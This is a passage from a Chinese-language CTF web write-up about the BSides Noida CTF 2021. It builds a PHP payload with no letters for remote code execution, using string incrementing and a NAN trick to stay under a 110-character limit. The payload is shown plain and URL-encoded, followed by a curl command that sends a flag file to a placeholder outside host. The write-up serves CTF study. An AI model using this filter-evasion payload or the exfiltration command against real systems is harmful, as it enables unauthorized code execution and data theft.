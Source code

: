 但是触发了 `strlen($VN) > 110`。

![image-20210809165321105](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210809165321105.png)



中间获取字母 T 太长了，可以利用 php 中构造 NAN 来获取 N，再进行自增获取 T。

```php
<?php
$_=C;
$_++;
$C=++$_;
$_++;$_++;
$C_=$_;
$_=(C/C.C)[0];
$_++;$_++;$_++;$_++;$_++;
$_=_.$C_.$C.++$_;
${$_}{1}(${$_}{2});
```

- `$_=(C/C.C)[0]`的原理是，C/C得到 NAN ，然后连接C使得转化为字符串 NANC，这样才能获取到第0个元素。
- 为了尽量减小 payload 长度，还需要把变量名尽可能缩小。

最终 payload：

```php
$_=C;$_++;$C=++$_;$_++;$_++;$C_=$_;$_=(C/C.C)[0];$_++;$_++;$_++;$_++;$_++;$_=_.$C_.$C.++$_;${$_}{1}(${$_}{2})
# urlencode
%24_%3DC%3B%24_%2B%2B%3B%24C%3D%2B%2B%24_%3B%24_%2B%2B%3B%24_%2B%2B%3B%24C_%3D%24_%3B%24_%3D%28C%2FC.C%29%5B0%5D%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%3D_.%24C_.%24C.%2B%2B%24_%3B%24%7B%24_%7D%7B1%7D%28%24%7B%24_%7D%7B2%7D%29%3B
```

```
1=exec&2=curl xxx.xxx.xxx.xxx:xxx -d "`cat /home/fl4g_h1hih1i_xxx.txt`"
```

记得url编码。

![image-20210809222814196](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210809222814196.png)



# 参考链接

- [BSides Noida CTF 2021 Web WriteUp](https://whoamianony.top/2021/08/08/CTF%E6%AF%94%E8%B5%9B%E8%AE%B0%E5%BD%95/BSides%20Noida%20CTF%202021/)
- [BSides Noida CTF 2021 Writeups](https://blog.hamayanhamayan.com/entry/2021/08/09/010725)
- [BSides Noida CTF 2021 Basic Notepad writeup](https://hi120ki.github.io/blog/posts/20210808/)